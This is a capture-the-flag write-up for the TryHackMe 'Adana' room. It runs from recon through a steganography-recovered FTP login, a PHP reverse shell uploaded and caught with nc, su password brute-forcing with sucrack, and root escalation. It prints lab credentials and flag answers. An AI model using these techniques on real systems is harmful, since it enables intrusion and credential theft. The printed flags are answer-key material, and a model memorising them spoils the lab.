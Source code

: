 CTF URL: https://tryhackme.com/r/room/adana
# IP
```
10.10.175.138
```
# Reconaisance
## NMAP
```bash
nmap -sS  10.10.175.138  
21/tcp open  ftp
80/tcp open  http
```
## WEB
### Dirb
```bash
dirb http://10.10.175.138/
# result
announcements/
```
### Nikto
```bash
nikto -h 10.10.175.138
# result
/phpmyadmin
```
### at port 80
add `adana.thm` to `/etc/hosts`
Wordpress
User: `hakanbey01`
in `/announcments/` there is wordlist and a photo
# Steg
```bash
stegcracker austrailian-bulldog-ant.jpg  wordlist.txt 
```
gives `123adanaantinwar`
```bash
steghide extract -sf austrailian-bulldog-ant.jpg     
Enter passphrase: 
wrote extracted data to "user-pass-ftp.txt".

cat user-pass-ftp.txt               
RlRQLUxPR0lOClVTRVI6IGhha2FuZnRwClBBU1M6IDEyM2FkYW5hY3JhY2s=
# which is 
FTP-LOGIN
USER: hakanftp
PASS: 123adanacrack
```
# FTP
We can login, and can upload smth. But it is not affecting the website. NOTHING CHANGES ON WEBSITE. 
But, `wp-config.php` seems interesting. it reveals
```php
define( 'DB_NAME', 'phpmyadmin1' );

/** MySQL database username */
define( 'DB_USER', 'phpmyadmin' );

/** MySQL database password */
define( 'DB_PASSWORD', '12345' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

```
`phpmyadmin:12345`
# phpmyadmin
```
Database server
    Server: Localhost via UNIX socket
    Server type: MySQL
    Server version: 5.7.32-0ubuntu0.18.04.1 - (Ubuntu)
    Protocol version: 10
    User: phpmyadmin@localhost
    Server charset: UTF-8 Unicode (utf8)

Web server
     Apache/2.4.29 (Ubuntu)
    Database client version: libmysql - mysqlnd 5.0.12-dev - 20150407 - $Id: 3591daad22de08524295e1bd073aceeff11e6579 $
    PHP extension: mysqliDocumentation curlDocumentation mbstringDocumentation
    PHP version: 7.2.24-0ubuntu0.18.04.7

phpMyAdmin
 Version information: 4.6.6deb5ubuntu0.5 
```

user found `hakanbey01:$P$BQML2QxAFBH4hb.qqKTpDnta6Q6Wl2/`, but cannot crack it
and another `$P$BEyLE6bPLjgWQ3IHrLu3or19t0faUh.`. There are two dbs: phpmyadmin and phpmyadmin1. Seems like clones. 

# Rev Shell

From `phpmyadmin1.wp_options` new subdomain found `http://subdomain.adana.thm`
and this points to website.  Seems like FTP is connected to it. 

let's upload a shell. (put and then chmod)
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
put it there and navigate to `http://subdomain.adana.thm/php-reverse-shell.php`

```
┌──(kali㉿kali)-[~/Downloads]
└─$ nc -lnvp 1234           
listening on [any] 1234 ...
connect to [10.8.97.245] from (UNKNOWN) [10.10.85.38] 48176
Linux ubuntu 4.15.0-130-generic #134-Ubuntu SMP Tue Jan 5 20:46:26 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 08:09:56 up  1:19,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```
stabilization and first web flag 
```
www-data@ubuntu:/$ cat /var/www/html/wwe3bbfla4g.txt 
THM{343a7e2064a1d992c01ee201c346edff}
```
# PrivEsc to User
sucrack was as keyword to the thm room. 
https://github.com/hemp3l/sucrack

upload found wordlist, sucrack tool to the ftp server, and chmod 777 them.
```bash
cd sucrack
./configure 
make
sucrack -u hakanbey -w 100 wordlist.txt
```

it will not work as I found that someone found that passwords start with`123adana`.
So,
```bash
awk '{print "123adana" $0}' wordlist.txt > new-wordlist.txt
sucrack/src/sucrack -u hakanbey -w 100 new-wordlist.txt
```

`hakanbey:123adanasubaru`
```bash
hakanbey@ubuntu:~$ ls
Desktop    Downloads  Pictures  Templates  Videos
Documents  Music      Public    user.txt   website
hakanbey@ubuntu:~$ cat user.txt 
THM{8ba9d7715fe726332b7fc9bd00e67127}
```

# PrivEsc to root
```bash
find /usr/bin -group hakanbey 2>/dev/null | more # finds /usr/bin/binary
/usr/bin/binary # gives some game
strings /usr/bin/binary

ltrace /usr/bin/binary # can be used for debugging
# it gives passwords warzoneinadana

hakanbey@ubuntu:~$ /usr/bin/binary
I think you should enter the correct string here ==>warzoneinadana
Hint! : Hexeditor 00000020 ==> ???? ==> /home/hakanbey/Desktop/root.jpg (CyberChef)

Copy /root/root.jpg ==> /home/hakanbey/root.jpg

```
Move jpg to your machine.

`hexeditor root.jpg`
at position `00000020`
```
FE E9 9D 3D  79 18 5F FC   82 6D DF 1C  69 AC C2 75 
```
hint says from hex to base85
`root:Go0odJo0BbBro0o`
```
root@ubuntu:/home/hakanbey# cat /root/root.txt 
THM{c5a9d3e4147a13cbd1ca24b014466a6c}
```